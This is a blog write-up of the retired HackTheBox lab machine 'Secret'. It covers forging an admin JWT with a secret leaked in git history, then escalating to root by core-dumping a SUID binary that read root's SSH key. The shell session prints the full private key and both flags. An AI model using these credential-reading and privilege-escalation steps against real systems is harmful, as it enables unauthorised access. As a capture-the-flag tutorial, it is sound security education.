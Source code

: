 Title: HTB: Secret
Date: 03-28-2022 12:11
category:security
tags:security, boot2root, HTB, jwt, core dump
meta:security, boot2root, HTB, jwt, core dump

<img class="align-left" src="/media/2022.03/secret_card.png" alt="Secret" width="262">

This is a writeup about a retired HacktheBox machine:
[Secret](https://www.hackthebox.com/home/machines/profile/408) publish on
October 30, 2021 by
[z9fr](https://www.hackthebox.com/home/users/profile/485024).
This box is rated as an easy machine. It implies a JWT token and its secret, as
well as a program core dump.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Only a few ports are open: 22(SSH), 80 (HTTP) and 3000(also an HTTP service
here).

![nmap](/media/2022.03/secret_nmap.png){: .image-process-article-image}

The website on port 3000, provide an API and its documentation. We can download
the source code from the site. Looking at the different commit we found that
the commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 "removed .env for security reasons"
might be interesting.

![git log](/media/2022.03/secret_gitlog.png){: .image-process-article-image}


We look at the `git diff` for this specific commit and found the non redacted
`TOKEN_SECRET` for the application.

![git diff](/media/2022.03/secret_gitdiff.png){: .image-process-article-image}

We create a python script that allow to interact with the API to create an
account, leveraging the known token secret to change our name to 'theadmin'
using [jwt_tool](https://github.com/ticarpi/jwt_tool)
putting our SSH public key on the box for the 'dasith' user.

[![https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee](/media/2022.03/secret_l.py.png)](https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee)

We can then connect using SSH and get the user flag.

    :::text
    $ ssh dasith@10.129.173.112
    dasith@secret:~$ cat user.txt
    7eb18a62ea270f0da664dac963a7fa05

# Root

Looking at the available file and specifically the SUID ones we found interesting
stuff in `/opt` as there is a `valgrind.log` file, a `code.c` file and a SUID
compiled binary. The presence of the [valgrind](https://valgrind.org/) file
hint us that the binary allow for core dump.

We run the SUID binary and enumerate the `/root/` and the `/root/.ssh/` folders.
There is a private SSH key that we want to retrieve.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/
    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm
    drwx------      .ssh

    Total entries       = 15
    Regular files       = 4
    Directories         = 10
    Symbolic links      = 1
    Save results a file? [y/N]: n

    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/
    drwx------      ..
    -rw-------      authorized_keys
    -rw-------      id_rsa
    drwx------      .
    -rw-r--r--      id_rsa.pub

    Total entries       = 5
    Regular files       = 3
    Directories         = 2
    Symbolic links      = 0
    Save results a file? [y/N]: n

We run the program again and this time we "read" the SSH key. We then put the
program on background with <CTRL+Z> and send a
[Segmentation Fault (SIGSEV)](https://en.wikipedia.org/wiki/Segmentation_fault)
to the application using `kill` and put it back in the foreground generating a
core dump.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/id_rsa

    Total characters = 2602
    Total words      = 45
    Total lines      = 39
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps
        PID TTY          TIME CMD
      1377 pts/0    00:00:00 bash
      1427 pts/0    00:00:00 count
      1456 pts/0    00:00:00 ps
    dasith@secret:/opt$ kill -SIGSEGV 1427
    dasith@secret:/opt$ fg
    -bash: fg: job has terminated
    [1]+  Segmentation fault      (core dumped) ./count

We use `appor-unpack` to unpack our core dump file and look for the SSH key in
it.

    :::text
    dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/p
    dasith@secret:/opt$ strings /tmp/p/CoreDump
    <SNIP>
    Save results a file? [y/N]: l words      = 45
    Total lines      = 39
    /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----

We save the SSH key and use it to connect to the box and grab the root flag.

    :::text
    └─$ ssh root@10.129.173.112 -i id_rsa_root
    root@secret:~# cat root.txt
    bb59318145fdf4a7ea1f50e6c829141c

# Wrapping up

An interesting box quit quick if you know what to do! The root part was harder
for me as I never exploited that before.
Also I tested some novelty in this article with the
[carbon](https://carbon.now.sh/) code snippet not sure to keep it that way as it
make it harder to copy paste and grep information from the article.

